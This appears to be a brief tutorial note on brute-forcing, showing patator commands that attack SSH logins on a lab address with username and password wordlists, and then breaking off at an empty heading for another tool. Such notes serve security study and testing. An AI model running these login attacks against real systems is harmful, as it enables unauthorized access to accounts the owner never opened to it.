 # Pataor

```sh
patator -h
```

![image-20201118121131431](75、暴力破解/image-20201118121131431.png)

```sh
patator ssh_login host=192.168.83.131 user=liujiang password=FILE0 0=pass.txt
```

![image-20201118121629917](75、暴力破解/image-20201118121629917.png)

```sh
patator ssh_login host=192.168.83.131 user=FILE1 1=user.txt password=FILE0 0=pass.txt
```

# BrutesPray
